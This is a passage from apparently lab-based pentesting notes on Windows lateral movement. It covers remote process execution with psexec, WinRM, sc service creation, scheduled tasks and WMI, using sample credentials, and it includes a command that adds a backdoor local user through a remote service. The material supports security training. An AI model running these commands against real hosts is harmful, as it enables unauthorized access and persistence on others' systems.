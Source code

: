 ## Administrators and UAC

[https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/user-account-control-and-remote-restriction](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/user-account-control-and-remote-restriction)

Differences between local accounts part of the local Administrators group and domain accounts part of the local Administrators group. Local accounts might be restricted for some techniques with full admin privileges over SMB, WinRM, etc. (except RDP GUI which counts with full rights). In these cases UAC has to be bypassed or the security feature has to be disabled.

## Spawning Processes Remotely

{% code overflow="wrap" fullWidth="true" %}
```powershell
psexec64.exe \\MACHINE_IP -u Administrator -p Mypass123 -i cmd.exe
# WinRM
winrs.exe -u:Administrator -p:Mypass123 -r:target cmd
# WinRM with PowerShell
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; 
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
Enter-PSSession -Computername TARGET -Credential $credential
Invoke-Command -Computername TARGET -Credential $credential -ScriptBlock {whoami}
# Remotely Creating Services Using sc
sc.exe \\TARGET create THMservice binPath= "net user munra Pass123 /add" start= auto
sc.exe \\TARGET start THMservice
sc.exe \\TARGET stop THMservice
sc.exe \\TARGET delete THMservice
# Creating Scheduled Tasks Remotely
schtasks /s TARGET /RU "SYSTEM" /create /tn "THMtask1" /tr "<command/payload to execute>" /sc ONCE /sd 01/01/1970 /st 00:00 
schtasks /s TARGET /run /TN "THMtask1" 
schtasks /S TARGET /TN "THMtask1" /DELETE /F
```
{% endcode %}

## WMI

{% code overflow="wrap" fullWidth="true" %}
```powershell
# Connecting to WMI From Powershell (Common for all cases below)
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
$Opt = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName TARGET -Credential $credential -SessionOption $Opt -ErrorAction Stop

# Remote Process Creation Using WMI
 $Command = "powershell.exe -Command Set-Content -Path C:\text.txt -Value munrawashere";
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{
CommandLine = $Command
}
# On legacy systems, the same can be done using wmic from the command prompt:
wmic.exe /user:Administrator /password:Mypass123 /node:TARGET process call create "cmd.exe /c calc.exe" 

# Creating Services Remotely with WMI
Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguments @{
Name = "THMService2";
DisplayName = "THMService2";
```